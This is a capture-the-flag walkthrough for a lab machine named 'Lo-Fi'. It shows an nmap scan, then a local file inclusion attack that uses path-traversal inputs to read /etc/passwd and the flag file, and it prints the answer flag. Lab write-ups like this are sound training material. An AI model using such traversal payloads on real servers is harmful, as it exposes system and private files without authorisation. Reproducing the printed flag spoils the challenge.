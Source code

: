 # <div align="center">Lo-Fi</div>
<div align="center">Want to hear some lo-fi beats, to relax or study to? We've got you covered!</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/2913182e-1239-4f21-acb7-6a44e9b510e6" height="200"></img>
</div>

## Task 1. Lo-Fi
### Climb the filesystem to find the flag!
```
flag{e4478e0eab69bd642b8238765dcb7d18}
```
## 1. Reconnaissance

### Nmap Scan
To begin, perform an initial reconnaissance scan using `nmap` to identify open ports and running services:

```bash
nmap -sV -sC <ip>
```

#### Nmap Scan Results
```
death@esther:~$ nmap -sV -sC 10.10.63.207
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-03 22:43 IST
Nmap scan report for 10.10.63.207
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 01:71:46:d9:02:03:cc:99:34:ef:a5:76:2f:0a:14:26 (RSA)
|   256 1d:17:a1:93:4f:ef:49:0e:3f:e3:01:23:0b:1a:45:d5 (ECDSA)
|_  256 60:b3:b1:1b:f0:f5:81:61:01:3f:ed:ab:37:5e:2c:ad (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since HTTP (port 80) is open, we navigate to the website.
<div align="center">
  <img src="https://github.com/user-attachments/assets/be839fbc-c6ef-419c-90c4-aeec9c193782" height=""></img>
</div>

---

## 2. Website Analysis
Upon exploring the website, it appears to host five song videos. When clicking on a video, the URL structure includes a query and path parameter, suggesting a potential Local File Inclusion (LFI) vulnerability.

<div align="center">
  <img src="https://github.com/user-attachments/assets/c2a5ac72-c0b2-40f8-b3a9-8e8c34cdc285" height=""></img>
</div>

---

## 3. Exploitation: LFI Attack
To confirm the LFI vulnerability, we attempt to access the `/etc/passwd` file by modifying the URL:

```bash
../../../../etc/passwd
```

<div align="center">
  <img src="https://github.com/user-attachments/assets/33eacf4d-c519-4d37-8258-5241568a1334" height=""></img>
</div>

The inclusion of `/etc/passwd` confirms the vulnerability. Now, let's attempt to locate the flag.

---

## 4. Capturing the Flag

Since this worked, I attempted to retrieve the flag. After a few failed attempts, I finally found it. Initially, I thought it would be `User flag.txt`, but surprisingly, it was much simpler than I expected!

```bash
../../../../flag.txt
```
<div align="center">
  <img src="https://github.com/user-attachments/assets/5f0681cd-3432-4400-a772-4234e673e9ca" height=""></img>
</div>

---


